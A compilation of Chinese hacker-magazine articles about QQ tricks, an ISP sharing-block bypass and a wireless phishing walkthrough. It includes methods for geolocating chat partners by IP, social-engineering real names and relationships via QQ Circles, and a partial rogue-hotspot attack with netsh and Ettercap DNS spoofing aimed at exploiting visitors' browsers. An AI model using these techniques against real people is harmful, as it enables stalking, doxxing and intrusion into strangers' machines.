大家用鼠标选择“空间”就来到了QQ空间的登录页面，如图07所示，登录我们的QQ帐号，接着进入发表说说的网页，随便发表一条说说，例如“测试、text”之后我们点击QQ面板上的QQ空间图标，进入正常的PC电脑版QQ空间进行预览，就会看到UA使用正常，我们伪装成功。如图08、09所示。至于iPhone触屏版和Android触屏版的实现方法大家按照上方的步骤照葫芦画瓢即可，目前UA的用途我们就讨论到这里为止。


最后这里讲到的，大家可以当作是扩展的内容去阅读，上文提到实现UA我们不仅可以使用火狐浏览器，其实还可以使用APPLE的Safari以及Chrome，当然这种方法也是iPad程序开发员在开发过程中常使用的PC模拟iPad调试程序的方法，它们的实现方法如下（仅供参考）：

```
iPad的User Agent
Mozilla/5.0(iPad; U; CPU iPhone OS 3_2 like Mac OS X; en-us) AppleWebKit/531.21.10 (KHTML, like Gecko) Version/4.0.4 Mobile/7B314 Safari/531.21.10

Safari的User Agent
首先到 偏好设置 > 高级选项，确保“在菜单栏中显示开发菜单”选中。
然后到 开发 > 用户代理，选择 Mobile Safari 3.2.2 — iPad
```

## Chrome的User Agent

打开 cmd，然后进入 Chrome 安装目录（C:\Users\xxxx\AppData\Local\Google\Chrome SxS\Application\chrome.exe）。

然后在 cmd 输入命令：`chrome.exe --user-agent="Mozilla/5.0(iPad; U; CPU iPhone OS 3_2 like Mac OS X; en-us) AppleWebKit/531.21.10 (KHTML, like Gecko) Version/4.0.4 Mobile/7B314 Safari/531.21.10"`

诚然，IE 下也是可以修改 User Agent 的，其方法是通过注册表修改：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Internet Settings\"版本号"\User Agent`


#### 二、换汤不换药，QQ皮肤回炉再造

Subject2：3月6日腾讯停止了对QQ2012体验版的公测，这也就意味着，曾经一时间风靡小菜心目中的“QQ换皮游戏”又要短暂性地落幕了。之所以这样说，恰因每次重大版本发布尤其是年度版本更新之际，腾讯都会完善封杀过往的Bug，同时更新发展中的业务和功能，也就是说，我们乐此不疲的那个“游戏”会受到短暂的阻滞。

话虽这样说，但也不可能完全没有突击的路径，否则也就不会出现本文了。关于怎样去制作自己的透明皮肤乃至如何更改QQ的版权信息，在这里我就不占用版面和大家长篇大论了，简单地说下原理，老鸟可以直接掠过，新手朋友借此恶补吧！

我们所有的美化QQ系列思路，基本都是在QQ文件安装目录下的 `Resource.x.x.x.xxx`（如本文所涉及到的QQ 2012体验版 `Resource.1.75.2991`）文件夹中完成的，要使用到的工具是“Rdb打包解包工具”。它可以将QQ资源目录中的 Res.rdb 文件解压成文件依附于文件夹的形式，这样方便我们对照修改，如替换登录框、替换QQ图标等。待修改完成，我们可以使用该软件再将文件夹打包成 Res.rdb 的形式，此时的 Res.rdb 随我们意愿修改完成的资源文件，最后我们只要将这个文件覆盖进根目录的相同文件即可，当然其他几个需要改动的资源和皮肤文件也类似，如图11所示。


写本文前我特意去找了两款相对美观的QQ透明皮肤资源文件，当然它们必须是正常支持QQ2012 Beta1版本的（3月8日由腾讯发布），这下就可以解大家的燃眉之急了。按照例行草草地说下替换方法，美化文件有两个，分别是 Default.rdb 和 Res.rdb。首先我们找到桌面上的QQ图标，单击右键，在弹出的右键菜单中选择“属性”，在弹出的“属性”对话框中选中“查找目标”按钮，这时系统会为我们弹出QQ安装目录的 BIN 文件夹，大家选择对话框中的“向上”命令，就可以来到QQ的安装根目录了。如图12所示，不知道大家是否注意到了“Resource.1.75.2991”这个文件夹，对！我们要找的就是它。众所周知，腾讯每一个新版本的QQ都会对应一个编号不一致的资源文件夹，而“Resource.1.75.2991”就是腾讯最新的资源文件夹了。我们将我为大家准备的 Default.rdb 和 Res.rdb 复制到该文件夹下，Default.rdb 文件复制到该文件夹下 Themes 这个文件夹中，注意，复制这些文件以前要记得备份系统的原始文件。


#### 三、QQ开外挂，IP透明公开化

Subject3：今夜不眠于此，今夜笔耕不止。我随手翻阅着前几期的黑客杂志，发现已经很少出现QQ显IP或版本等内容的文章了，“难道是这项技巧从此退出了QQ的舞台吗？”我不禁自我发问。答案当然是否定的，这也是我现在依然在码字的缘故吧！

说到显示IP，大家也不会倍感陌生，它的实现原理则更为简便，使用到的软件已经为大家打包附带。我们要做的很简单，将我给大家打包的QQ安装文件解压到任意文件夹，之后打开BIN目录进行登录QQ，其界面如图16所示。从图中可以看到此版本QQ为标准的2012正式版，这是毫无疑问的。那么下面我们就来登录自己的QQ，任意打开一个聊天框，如图17所示。此刻，程序就会自动为我们侦查对方QQ使用的版本。这个功能看似无用，但其实也并不是全无利用价值，就如大家所知，QQ版本是层出不穷、更新迅猛的，但是我们每位用户都会有自己约定俗成的使用习惯，当然也包括惰性，这些情况综合起来的结果就是不更新最新版本的QQ，那么此刻如果我想攻击某一位用户，他所使用的QQ版本也许就会成为我们的跳板，例如我知道他使用的是2010版的QQ，那么我就可以利用曾经网络火爆的“代码下线”这个漏洞去攻击他；例如我还知道对方使用的是08版的QQ，那么就更方便了，《黑客X档案》往刊中有效之不尽的技巧直指这“版本”，如是这么说，他成为“炮灰”的几率就又加大了。


图16


图17

细心的朋友还可以发现图17中下部分还有该用户的IP，一般情况下程序会自动在聊天过程中获取你聊天的对象的地理位置，当然也不排除意外的情况发生，那么此刻，我们就需要给对方发送一张图片去协助程序探测了。其次，这款程序还提供了猜测聊天对象是否隐身的功能，这个在图17中也有体现，这里就不多做说明了。

#### 四、猖狂的“闺蜜”，QQ邮箱的秘密

Subject4：这不，在刚过去的3.8妇女节中，“闺蜜”这个词再度飙红。所谓闺蜜，就是指那些经得起俗世考验的真心朋友。QQ邮箱作为QQ的一个分支功能，这么多年来与QQ同仇敌忾，并肩作战，它们之间的关系用“闺蜜”来形容，我“脚着”就再微妙不过了。俗话说：“天下没有不透风的墙”，QQ邮箱与QQ纵使再固若金汤，也有焦躁和薄弱的环节，就如我们今天要了解到的这则技巧，正是QQ邮箱出卖了QQ，所以新时代，我不再相信“闺蜜”……

值得一提的是，本则技巧与上一则技巧有个共性，它们所一脉相承的都是去探索挖掘对方的IP地址。之所以将两个技巧分开来陈列，是因为它们的方法原理还是相形见绌。


图18


图19

此方法只适合于QQ邮箱与QQ邮箱往来的邮件。也就是说，我们可以得知QQ邮箱中“收件箱”里任何一个好友的地址位置，只要他给你用他的QQ邮箱发一封邮件即可。（想要别人给你发封邮件不难完成吧？）如图18所示，打开我们的QQ邮箱，进入收件箱，任意找一封邮件并打开，在邮件正文的最右侧可以看到图中勾画出的“显示更多操作”的按钮，我们单击它，之后在显示的菜单中再选择“显示邮件原文”命令，这时系统就会弹出一个关于邮件原文的新网页，如图19所示。网页代码中我们需要提炼的就是第四行处的“X-Originating-IP: 122.51.98.253”即“来源于IP”这一项，好了，拿上这个IP地址去www.138ip.com或www.ip.cn等网站查询一下，是不是马上就得到了对方的地理位置了呢？如图20所示。


图20

#### 五、中娱QQ秀，一撇而就

Subject5：虽然关于QQ真人秀的制作方法一直充斥于耳，但是可取可用的资源却鲜少，笔者在写文之时，也费了极大的力气去尝试各种方法，无独有偶也就让我碰到了一种可行的方案，于是就写出来和大家分享了。

我们这种方法的原理依旧是真脸秀+代码实现。首先先找一个图片，建议是以色为主。注意，因为是半屏秀，所以后期为了美观还会对其进行修饰，而我所介绍的这则例子，后期提供的就是黑色素材，当然，若是你以自己的素材做真人秀，那么后期的美化就需要自己大费周章地去找材料了。

如图21所示，是我要做的素材，首先我们使用Photoshop等图片编辑软件把图片的大小更改为接近于170*255的px，具体方法是打开PS，在菜单中选择“图像”命令，在弹出的下拉列表中选择“图像大小”选项，接着我们在弹出的对话框中做修改即可，如图22所示。修改完毕，单击“确定”按钮退出对话框，使用快捷键Shift+Ctrl+S将文件导出保存；第二步打开QQ秀首页，单击最上边菜单中的“乐园”，注意是单击，如图23所示。这时候我们选择真脸秀，因为腾讯对QQ秀页面做了整改，导致我们现在已经不能在“乐园”的下拉列表中直接找到真脸秀的链接。真脸秀界面如图24所示，如果又子们进的不是这个页面，那很遗憾，我表示你找错地方了，这里再给大家科普一种办法，在我们最左侧预览QQ秀的界面下面有个“常用功能”的命令，我们点击它右边的“自定义”，在弹出的“自定义常用面板”中只要勾选上“真脸秀”即可，此方法万无一失，如图25所示。接下来是上传图片，图片上传完毕以后将图片使用“点击缩放形象”的命令放至最大就可以了；第三步就是将我们当前的形象切换为“时尚——女”风格，这么做的原因是为了接下来使用代码可以隐藏QQ秀的下半身，时尚女下半身隐藏代码为：

```
('1030881','F','406.409.412.415.418.421.430.436.440.442.448','0','0','500','0','0','0','0','0','','2990000000|UR.370542303')
```


图21

代码我会为大家打包附带，将代码复制到浏览器中按下回车按钮，看下是否正常隐藏，如图26所示为隐藏后的例图。

## QQ宝典

最后一步就是我上文所谓的修饰自定义真人秀了，选择黑色系列的红钻朋友可以去搜索下“追随爱、闪烁星光”这两款产品，他们的混搭效果最为不错，如图27所示。以上两个关键字的商品基本可以确定为百搭配饰，而且被广大网民们所认可和熟知，至于说到我们的原始素材，在本文结束后我会为大家提供一些黑色风格的文字和图片供列为叉子演练和实战，如图28所示。


（文中涉及的相关程序及代码本期光盘已收录）

### QQ想挂多少就挂多少

玩黑这么多年，想必各位叉子的QQ号码一定不少。以前我的本本是手写的，配置不高，挂2008版QQ，只能挂5个，多了就死机。至于更高版本，只能挂两个。最近新换的本本，打算把QQ都拿出来晒晒，没想到登录到第九个QQ的时候，系统提示（如

图1）。

上线高峰不能上线，只有离线状态。在网上搜索了很多方法，第一种方法，替换TXPlatform.exe文件，我记得以前有人说过，这个文件是检查是否重复登录同一账号的。没办法，试试吧，失败！第二种方法，安装不同的版本，登录到第九个QQ时，使用QQ 2009以上版本，可以登录总数量十个（这也叫方法？），之后使用软件模拟手机，登录java版本QQ。果断放弃。

为什么不能登录多个QQ呢？难道是IP做了限制，不应该啊，那样岂不是网吧只能有8台机器了（每台一个QQ）？于是做了一个实验，局域网内两台机器都可以登录8个QQ，而且无论什么时间段都一样。由此排除限制IP的可能，那么会不会是硬件的限制？经过多次实验，排除了硬件限制，并找到第一种方法：虚拟机。虚拟机登录与本机登录不冲突，每一个虚拟系统都可以登录8个QQ（如图2）。


图1


图2

但是比较繁琐，相信叉子们不喜欢这么麻烦的方法，那么继续研究！既然不是IP与硬件的限制，那么难道是进程名？于是将QQ.exe修改为Q1Q.exe，结果打开失败。自身名称进行了校验，试试TM，依然失败！那怎么办？哈哈，既然你不让我改进程名，那么我不让你看见进程名不是一样达到了效果吗？于是就有了更简单快捷的第二种方法：找个驱动级隐藏进程的软件，上网随意搜。本文使用的是HideToolz。登录QQ，当登录到第七个的时候，打开HideToolz，将QQ的进程全部选择“隐藏”然后继续登录，宗旨就是可见的QQ.exe进程一定不要出现8个！出现几个就给隐藏，然后继续登录。哈哈，终于完美成功（如图3、如图4）。


图3


图4

18个QQ全部登录，全部在线！但是有一点需要注意，如果中途有QQ离线再上线，那么还会如图1做提示登录失败的。具体原因不明。我认为好像隐藏QQ进程，就是把他们都藏在一个盒子内，当登录新的QQ，发现盒子外QQ小于8个，那么继续登录。但是盒子内的QQ离线，或者二次登录，将登录中的QQ挤掉线，那么再选择上线的时候，盒子内的QQ就发现周围的QQ大于8个了，所以登录失败！不知道理解得对不对，希望高手指正！（由于HideToolz杀毒网检测扫：54%的杀软(20/37)报告发现病毒），所以加密上传（密码123），或自行下载其他工具，有相同效果就可以！

## QQ打造比VIP还VIP的非主VIP

凌云太小志

TX创造的“电子鸦片”真可谓是上至99下至刚会走，都有几个QQ号！

- “QQ是用来干啥的？”
- “聊天”

## QQ宝典

对，QQ本来就是用来聊天的，可是那个“贪心”的马化腾，用他那“天下无敌”的“复制团队”接连复制出了“QQ旋风”“QQ音乐”“QQ空间”“AVA”……数都数不过来，真可谓是“一直在模仿，从未被超越”。我们今天不研究他的其他东西，就说说这个聊天吧！

我们在聊天的时候总会翻翻以前的聊天记录吧；如果在家里还好说，如果在外面就晕了！TX不失时机地推出了QQ会员漫游聊天记录的功能！这QQ会员可是1月10块大洋啊！岂是我等穷人买得起的？再说，即使是会员也只能漫游30天（非会员7天，坑爹啊！），还不能漫游图片！！！又由于家中有台式机，公司有电脑，自己手里还有上网本……

教大家使用很平凡的网盘打造一个“多位一体”的“云版QQ”，打造一个比VIP还VIP的非VIP“会员”！！！！

Let’s go！

#### The first step

首先为自己的电脑安装金山快盘，然后使用自己的QQ号码登录。这里不要担心QQ账号的安全，腾讯和金山目前是合作伙伴，登录后单击“允许”授权给快盘，稍后根据提示会自动在硬盘中创建一个快盘分区。打开快盘，在里面创建一个名为“QQ”的文件夹以备用。

#### The second step

下载安装最新版的QQ，在安装过程中可以选择“个人文件夹”。

- 1. 选择“个人文件夹”，选择“自定义”，单击“浏览”按钮，将个人文件夹设置为快盘中的QQ文件夹。
- 2. 如果QQ已经安装了，则登录QQ后单击主界面上的“主菜单”按钮。
- 3. 选择“系统设置→基本设置”，切换到“文件管理”选项，选择“自定义”，将个人文件夹设置为快盘中的QQ文件夹。并在下方设置个人文件超过800MB时提醒清理，这样可避免网盘文件太多而使以后同步速度变慢；选择“漫游我的设置”，可以将QQ的一些个性化设置和数据实现漫游，这样保证在不同电脑上使用QQ时，设置和数据一致。

#### The third step

在快盘的QQ文件夹中新建一个名为files的文件夹，然后单击QQ主界面上的“主菜单”，选择“系统设置→好友和聊天”，再切换到“文件传输”选项，将“文件传输”默认接收文件夹设置为files文件夹。这样以后接收的文件都会自动保存到当前文件夹，并且会自动同步到网盘。在其它电脑上安装金山网盘并登录，然后等数据同步到电脑的网盘后，再重新安装QQ。

小提示：如果原来本机上有QQ，请先卸载并删除原有的数据文件。在安装QQ的过程中，将“个人文件夹”设置为快盘中的QQ文件夹，再将“文件传输”的默认接收文件夹设置为QQ文件夹中的files文件夹，这样我们就实现了多台电脑上的QQ数据同步。以后打开电脑，在金山网盘自动同步数据后再登录QQ，你会发现虽然是在不同的电脑上使用QQ，但聊天记录、表情图片、接收的文件等都保持最新状态，和在同一台电脑上使用QQ基本上没有区别。

### MTK版QQ手机后台运行

虽然说现在iOS的版本号已经到5了，Android的版本号也到4了，Windows Phone Apollo即将面世，Symbian也都升级到了Belle，MeeGo即将升级至1.4。林林总总，还有些没有列举出来。尽管这些智能操作系统不断在升级，但是在中国，山寨机却还是占据着一定份额的。

今天要说的便是如何在MTK平台下实现QQ后台运行。首先我们先确定下手机平台。我们拨号输入*#220807#，如果会出现一个应用列表或者弹出wap网页就为MTK平台。目前很多的山寨机子都自带有手机QQ，我们可以将它自带的升级一下。目前腾讯官方MTK版最新版为QQ2010，我在此版本上进行了下修改。从腾讯更新各平台版本的QQ周期上来看，MTK版QQ很难再得到更新，因此我将修改过的QQ命名为QQ典藏版。大家需要相关文件可以到我的博客（hopes-evan.blogbus.com）上来获取。

如果手机拨号输入*#220807#可以打开应用列表，那我们就可以在内存卡中找到一个名为mythroad的文件夹了，我们在其里面的子文件夹app2403202中应该可以找到一个名为qq2008.mrp。我们将QQ典藏版文件复制到此，并更名为qq2008.mrp即可完成升级（图1）。

倘若我们手机拨号输入*#220807#是弹出wap网页的话，我们便在内存卡根目录下建立一个名为mythroad的文件夹，并将QQ典藏版文件复制到其中去，更名为dsm_gm.mrp。这样我们手机拨号输入*#220807#，便可启动QQ了。

当我们需要后台的时候，不能直接按挂机键（带有QQ键的手机可以直接按），我们需要到QQ里的菜单之中选择“挂机”。要返回QQ，重新拨号输入*#220807#。如果在手机上方的状态栏上有显示QQ图标的话，我们可以直接点击它便可返回。手机上带有QQ键的，可以直接按下QQ键便可返回。

> （文中涉及的相关程序本期光盘已收录）

### 社工神器——QQ圈子试用手记

Evan

最近腾讯在体验中心开始了QQ圈子的试用，QQ圈子是能够让朋友之间找到彼此的新功能，即使你们并未加为QQ好友。QQ圈子可以将你的朋友一个个分列在不同的圈子（分组）中，比如说同事、同学。并且大部分都是真实姓名的，我们可以使用这些备注来给没有备注的好友加上备注。在此之外，我们还可以找出没有加其QQ但却认识的朋友。小生对于QQ圈子没有很惊讶，其实这些功能腾讯早都可以实现的。

QQ圈子的原理（或许说是理论支持）便是“六度空间”理论，“六度空间”理论又称作六度分隔（Six Degrees of Separation）理论。这个理论可以通俗地阐述为：“你和任何一个陌生人之间所间隔的人不会超过六个，也就是说，最多通过六个人你就能够认识任何一个陌生人。”我们的朋友可能是相互认识的，也有可能是我们在其中充当桥梁。这样一来我们可以通过QQ圈子来认识我们的朋友的朋友。当然我们也可以将QQ圈子用于社工，但请不要做出违反法律的事情，这样警察叔叔会请吃饭的哦。

按腾讯的惯例，我们要想使用QQ圈子的话，需要先到腾讯体验中心（exp.qq.com）来申请。不过目前名额已经发放完毕，友子们请等待第二批次的试用名额。我们可以到腾讯体验中心去登记，一旦开始发放名额便会发送邮件提醒我们。小生已经下载好了QQ圈子试用版，友子们请到网上搜索下载。QQ圈子版与QQ2012大致相同，只是在程序下方多了个“圈子”按钮。我们单击打开，界面如图1。我们点击“立即体验”开始试用。

我们按下按钮之后便会出现“正在生成圈子中”的提示，其背景图也是很有趣的（如图2），说实话很真实地反映了程序员的生存现状。稍等片刻，便会出现如图3所示界面，我们点击“开启圈子，找回美好回忆”便可以开始圈子之旅了，不要太惊讶哦。打开圈子之后，会有功能提示，界面如图4。我们只要一直下一步就好了。我们可以看到左侧分有不同的圈子，右侧便为圈子中的好友了。虽然左侧的圈子名只有一个“同学”圈子很准确，其他的都是显示“圈子X”。这是因为非主流文化的大肆流行，当下很多人的分组名都是些非主流元素。每个人的分组名都是不尽相同的，腾讯为了避免我们隐私的泄露，如果分组名不是很多人同时使用的话，它是不会采用的。当然圈子里好友的备注也是如此的，同一个好友，备注名大都相同的话便会显示这个共用的备注名。

在图4用圈起来的地方，包含了很多信息。在时钟标志后的数字代表了该好友多少天内登录过，我们可以从这里判断好友的活跃程度。人头标志后的数字便是共同好友数了，从这里就可以看出与该好友的熟络程度。认识得越久的好友，共同好友自然是更多的。将鼠标移动至某个好友上方，会有三个按钮，分别是好友近况、查看资料（发起会话）、发起会话（加为好友）。三个按钮功能按我们是否加圈内好友为QQ好友而不同。如果我们已经加圈内好友为QQ好友的话，会有QQ好友的标志，而且会在头像下方显示当前的在线状态。同时我们还可以利用圈内好友对QQ好友的备注，来给我们QQ上那些没有打备注的好友一次性加上备注。我们点击窗口上方的“智能备注”，打开界面如图5。上面显示了我们可以加上备注QQ好友的昵称，右边则为智能备注，我们点击下方的“批量备注”就好了。

我们要想查看圈内好友的近况，只需要点击头像就可以了。在圈子上方有个按亲密度或者是否在线排序好友，这个我们可以随便选择。亲密度不知道腾讯是按照聊天频率还是互动（或者说是按其他的）排列的，在我这个圈子里，亲密度排行是错误的。有些好友我甚至没有和他聊过几次天，也没有进行其他的互动，居然能够排在前面几名的位置。如果大家也有类似的问题，欢迎到我的微博（t.qq.com/hopes-evan）来互动。

大概介绍了下QQ圈子的使用，现在就要说下我们如何在社工中运用上QQ圈子了。QQ圈子能够将不同的好友分为不同的圈子，其中每个圈子的性质都是不大相同的。可能会有兄弟、同学和同事等的圈子，我们便可以从中分析出社会关系，获取到很多人的真实姓名。我们再结合从QQ空间中的互动信息，便可以来了解某好友的血缘关系（其他关系等）。我们主要可以从QQ空间的说说评论及留言板上来获取信息，同时日志也是很有用的哦。话不说多，意在抛砖引玉。要怎么做，友子们是知道的。再次重申下，请不要用于非法行为。

说完了攻，现在就来说下防守。要想保护自己的资料不被那些有特殊想法的人所利用，我们可以到QQ圈子的网站（http://im.qq.com/quan/index.html）上来进行设置。也可以直接通过QQ圈子来设置，我们点击QQ圈子窗口上齿轮状的图标，选择最后一个选项（退出圈子），界面如图6。选择一项离开理由，再点击“确定”即可。其实我们也是可以不用选择任何理由的，直接便可以点击。

### 想上网？要先突破电信拦阻共享限制

李梓羿

### 一、事情起因：

事情是这样发生的，近日我们宿舍开了个电信的4M校园网，为了将节俭与共享精神发挥至最大化，寝室6个人共享之。于是，在寂寞的夜里，耐不住寂寞的我们上网了……但是正当我们玩得happy的时候，我们的浏览器都被反馈了“尊敬的客户：系统检测到您的宽带可能被安装有影响网络安全或网络服务质量的设备，网络暂时中断，请您稍后只连接一台电脑上网试试。”的提示（如图1）……于是，不得不研究之。根据断网时的状况做如下分析：

- 1. ping包可以顺利解析发送：说明了ICMP协议未设防，且电信未使用DNS污染技术（如图2）。
- 2. 宿舍内反映网页和部分软件无法打开，但QQ、迅雷、快播等软件可以正常使用：说明了TCP/IP协议、UDP协议、P2P、专用通道未设防，即电信服务器未对其进行屏蔽。
- 3. 打开网页时部分网站正常访问，部分网站只可以访问主页或访问后再次访问被封，大部分网站无法正常访问：说明在电信的屏蔽系统内并不是阻止某个网站访问，而是有一个获取当前用户访问地址的学习规则。
- 4. 使用代理浏览器后上网时仍然被封：说明电信的拦截是穿透代理的。（猜测是因为网关交换机中被电信加入了类似于网络尖兵的检测程序，即电信有办法检测虚拟拨号上网用户内网的真实使用状态）
- 5. 被屏蔽后一段时间后自动恢复正常、重新更换动态密码后自动恢复正常、使用路由超过6小时开始屏蔽：说明电信的检测程序并不会对用户永久屏蔽，且在ADSL重拨或过几分钟后对该用户的限制会清空（因为使用的是HTTP劫持技术，而HTTP协议则是一种无连接、无状态协议，即限制每次连接只处理一个请求。服务器处理完客户的请求，并收到客户的应答后，即断开连接；并且对于事务处理没有记忆能力，如果后续处理需要前面的信息，则它必须重传。）。

### 二、猜测其原理：

对于ADSL用虚拟拨号上网的用户，电信会监控用户的端口、数据包等信息，而用路由器上网的用户都是用内网IP，相对外网来讲就是同一个外网IP后面的端口不一样，并且数据包中携带的MAC地址、时间、系统状态等信息也不相同。这时电信就可以检测出它分配给用户的外网IP地址存在多用户使用，电信便会对HTTP协议进行劫持，即停止HTTP协议的解析并反馈错误网页。这就出现在用户的电脑上ping DNS服务器没问题，但是就是上不了网的情况。（注：电信使用的探测技术便是黑客技术中的扫描技术。我结合我们学校的网络拓扑结构分析，电信检测共享的设备应该装在可以收集到所有用户上网流量的位置上，如图3）。

### 验证其原理：

在断网时使用smsniff对80端口受限制网页进行抓包，发现本地HTTP请求正常发向正确服务器，但反馈错误地址被改成了电信指定的网页（如图4）。但当用户使用HTTPS、UDP、ICMP等协议时可正常访问。故，推理正确。

及时更换动态口令再路由器重新拨号，即可暂时解封（亲测可行但不推荐使用，因为系统扫描周期可变，有可能半个小时就拦截你一次）。

### 三、突破方法：

- 1. 使用VPS架设VPN（亲测可行，此法突破效果最佳。PS：废话，VPN连GFW都可以突破…）可以选择使用免费VPN来建立加密通道，如：http://www.vpncup.mobi/，有条件的也可以选择ICMP打洞或UDP打洞建立隧道来连接VPS从而建立VPN。详细操作可参考小虾大牛的博客：xiaoxia.org。当然你也可以选择使用https/sock4/5代理等方式。
- 2. 修改路由器及映射端口及数据包中的信息等来欺骗电信的判定程序（亲测可行，效果也很不错）。具体可以通过路由器升级等方式简单地实现，当然你也可以选择自己手工改包——（但须注意可能有些路由器不支持此功能，也有些路由器在升级后由于电信封锁可能会带来其他小问题，如只打不开百度等）。
- 3. 写一个HTTP状态欺骗程序（理论可行），通过发送伪造数据包来将封锁欺骗到一个并不存在的域名来实现。（貌似有点霸王硬上弓的韵味。）
- 4. 给供应商打电话，口气硬一些，要一口咬定我们是一个家庭在上网（给他一种“我家有钱你管不着，你不恢复我就告你”的感觉~~），这样操作有六七成的可能性恢复正常，因为大部分情况下他们会直接把你加入白名单的。
- 5. 及时更换动态口令再路由器重新拨号，只要拨号成功即…

### 四、实验验证：

- 下面我们来对前两种方法进行验证：
- 1.1 首先登录http://www.vpncup.mobi/ 来到如图5所示的界面注册并激活一个VPN账号。
- 1.2 配置并登录VPN：Windows 7中具体步骤为：控制面板-网络和Internet-网络和共享中心-设置新的连接或网络。其他系统请自行参照网站上的说明，这里限于篇幅就不一一介绍了。VPN成功登录后会显示图6所示界面，此时便可以正常联网了。
- 2.1 首先登录路由器官网，根据自己路由器型号下载特殊升级包。例如笔者使用的是TP-LINK TL-WR740N V5型路由器，则应该登录TP-LINK官方网站打开TL-WR740N V3型号的下载中心，下载自己所在地区的特殊升级包（如图7所示）。
- 2.2 解压并运行升级包中的tftpd32程序。（小提示：运行该程序时请以管理员权限运行，并且关闭所有的防火墙。因为防火墙会阻止tftp服务器正常建立）并登录你的路由器点击其中的升级功能，如图8。升级完毕后即可突破共享封锁了。

### 五、总结：

中国电信为了使其用户覆盖率成倍递增，不惜使用黑客行为扫描探测用户隐私数据，这已经是在和法律打擦边球了，按说电信也应该收敛一些低调做人。可谁知他们不但不知悔改，反而变本加厉地去推广这种行为。自打06年开始广东、上海等地区被封锁以来，全国居然已经有十多个重要省市的网络共享被封锁，而作为竞争对手的网通等供应商居然也学得有模有样，大肆搞起了封锁！作为一个被侵权者的我表示很气愤，故发此文，希望大家都能顺利突破封锁，个人权利不被侵犯，故写此文。（注：此文仓促而写，难免会有些纰漏，恳请各位大牛多多指点。^_^）

### 记一次在学校图书馆的无线钓鱼攻击

HelloKitty

首先，给自己定个位，我只是一个网络安全爱好者，而且目前还是菜鸟一枚。本篇文章只是从技术的角度剖析检测无线网络的安全，旨在提高大家的网络安全意识。读者切勿模仿，若由此文章引发读者对其他网络进行各种攻击，本人概不负责。我写的这篇文章，尽最大可能做到浅显易懂，也算是给黑暗中摸索道路的人一个参考方向吧。

好，切入正题。首先，我们这次攻击采用的原理是ARP欺骗。何谓ARP欺骗呢？学过计算机的人或多或少都应该知道，ARP，即地址解析协议。我们都知道局域网或者广域网上的每台机器都有一个独一无二的IP地址，以此来表示网络地址。为了让数据在物理网络上传送，就得知道对方物理地址（MAC），这样就存在把IP地址转换为物理地址的问题，就用到了ARP协议：将IP地址解析为MAC地址。打个比方，在一个交通网络中，邮递员想把信件送到xx大街xx号的小明处，邮递员的目标是小明，小明的物理地址是xx大街xx号。那么ARP欺骗是什么呢？就是先冒充目标IP，欺骗网络传送的数据，说自己就是他们的目标MAC，然后数据就会全部发送到我这里，由我做一些数据处理，再假冒网络关卡，将经过修改或者记录的数据返回给真正的物理地址。整个过程就扮演一个中间人的角色。在我们的例子中，就是我们先把自己的门牌号换成xx大街xx号，冒充小明接收邮件，把邮件的内容打开看了以后，适当做些记录或修改，再冒充邮递员给小明送过去。

当然我们还有一种利用方式，就是如果小明要发送信件出去呢？我们也可以用同样的方式，做一次中间人。这里不再赘述。

再来看看什么是钓鱼，简而言之，钓鱼就是伪装成客户端连接的网络节点，欺骗他们主动连接上来，然后通过已连接的网络隧道发起攻击。这里我将Windows 7实体机设置成无线热点，因为是在像图书馆这样的公共场所，内部的无线网络又太拥挤，位置不好的话网速也不快。如果他们发现有另外一个开放的无线热点，我想应该还是有人会尝试连接的。当然，无线热点最好也能接入互联网，这样更具诱惑性。

原理说完了，现在让我们着手去做吧！本次用到的工具：带无线网卡的计算机一个，使用的是Windows主系统和Linux虚拟机（其实这次攻击我们主要用到Linux系统），虚拟机上安装Metasploit Framework（简称MSF）和Ettercap（局域网用来欺骗的工具）。

首先搭建WIFI热点。大家可能都知道有一个软件叫“connectify”，装上以后就可以把自己笔记本设置成无线热点了。但是我在这里不用也不推荐使用connectify，因为

## 内网战场

如果使用它的话，本机就不会出现一个虚拟网络适配器，这样虚拟机也就不会桥接到这个虚拟网卡然后进行欺骗。那我们用什么方法呢？很简单！两条命令加一个操作解决问题！

现在我们点击开始---所有程序---附件，在命令提示符上点击右键，以管理员方式运行。然后输入以下命令，如图1：

```bash
netsh wlan set hostednetwork mode=allow ssid=key12345678 key=12345678
```

图1

这样就成功建立一个名称是 key12345678，密码是 12345678 的 WiFi 热点了。相信看到的人都会使用 12345678 这个密码来连接一下吧。然后给虚拟 WiFi 设置共享上网：打开控制面板---网络和 Internet---网络连接，这时候就可以看见我们新建的一个无线网络连接2的虚拟适配器了，显示的是 Microsoft Virtual WiFi Miniport。我是用的校内 VPN 服务器上的网，所以选择共享 VPN 网络，如图2。一般用户都是拨号连接的话就选择本地连接---属性---共享，然后选择无线网络连接2，就行了。

图2

设置好以后，我们回到命令提示符输入框，输入：`netsh wlan start hostednetwork` 这个命令，我们的 WiFi 热点就搭建成功了！外部手机连接一下，顺利上网！OK，再接着配置虚拟机网络。我们将 Linux 系统设置为桥接刚才建立的虚拟网卡，这样 Linux 就可以直接连接到那个虚拟 WiFi 适配器了，如图3。

图3

然后打开虚拟机，在虚拟机查看一下用 `ifconfig` 命令查看 IP，如图4。

图4

我们可以看到，除了我自己已设置的 NAT 上网有一个 IP 地址是 192.168.110.129，桥接的网卡竟然没有分到 IP？这是因为我们是直接用虚拟机连到无线网络，没有经过身份认证，所以不能通过 DHCP 服务器分配到 IP 地址。不过没关系，我们手动指定一下。在本机输入命令 `ipconfig`，查看虚拟网卡下的 IP 配置，如图5。

图5

这样知道虚拟无线网卡是 192.168.137.* 的网段。因为外部联系 WiFi 上网都是要经过我 Windows 的本机，所以本机我自然就是尾号是1的网关啦。我们随便在虚拟机里指定一个 IP，就指定成 192.168.137.55 吧！在 Linux 终端下输入：`ifconfig eth0 192.168.137.55 up`，如图6。

图6

好的，成功指定，接下来我们来配置欺骗规则。我们让每一个通过 WiFi 上网的人打开其他页面正常，但是打开 www.baidu.com 就会转到我们指定的页面，让这个页面攻击浏览器，从而拿到连接 WiFi 的机器的最高权限。这里我们配置 Ettercap 的 DNS 欺骗规则。Ettercap 我在 Linux 下已经安装完毕，默认的配置是在 `/usr/share/ettercap` 这个目录里面，我们来配置其中的 DNS 欺骗规则，如图7。

```bash
root@bt:/usr/share/ettercap# ls
ettercap.mg  etterfilter.cnt  etterfilter.tbl  etter.mime
...
```

图7

看见一个名为 `etter.dns` 的文件没有？这个就是 DNS 欺骗规则。用 vim 打开编辑一下，具体用法在这个文件里面都有说明。只需要在最后一行上添加 `*.baidu.com A 192.168.137.55` 就行了，如图8。

```text
